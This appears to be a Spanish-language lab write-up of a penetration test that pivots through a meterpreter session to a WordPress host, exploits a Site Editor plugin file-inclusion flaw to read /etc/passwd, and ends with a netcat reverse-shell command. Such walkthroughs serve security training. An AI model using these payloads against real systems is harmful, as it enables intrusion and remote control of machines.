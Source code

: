 ![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2018.png)

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2019.png)

Encontramos una dirección en todo.txt, /h3l105, que si entramos podemos comprobar que esta siendo alojada en un WordPress:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2020.png)

Ahora tendremos que realizar un port forwarding en el meterpreter:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2021.png)

Con esto, podemos realizar un wpscan utilizando proxychain4:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2022.png)

Encontramos que tiene el directorio /wp-content/uploads/:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2023.png)

Vemos que contiene un plugin, Site Editors:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2024.png)

Que buscaremos en [exploit-db.com](http://exploit-db.com) para ver si encontramos alguna vulnerabilidad que pueda ser explotada:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2025.png)

Que nos dice en su prueba de concepto que visitando la siguiente dirección:

http://10.10.10.4/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

Accedemos al archivo /etc/passwd del equipo PC02:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2026.png)

Ahora necesitamos realizar una ejecución remota de código, para ello usaremos el telnet alojado en el puerto 25:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2027.png)

Ahora podremos visualizar en la siguiente dirección que se ejecuto correctamente:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2028.png)

Vemos que estamos ejecutando el comando whoami, y su respuesta que es helios.

Podremos crear una shell inversa cambiando el comando por ***nc -e /bin/sh <IP-Maquina-PC1> 4466*** y con ello, creamos una redirección con netsh en la máquina PC1, la cual reenviara el puerto 4466 a nuestro equipo atacante para obtener la shell:

![Untitled](Write%20UP%20Proyecto%2007%2058d947eecd1f45caaeedd4a6b887a6e7/Untitled%2029.png)
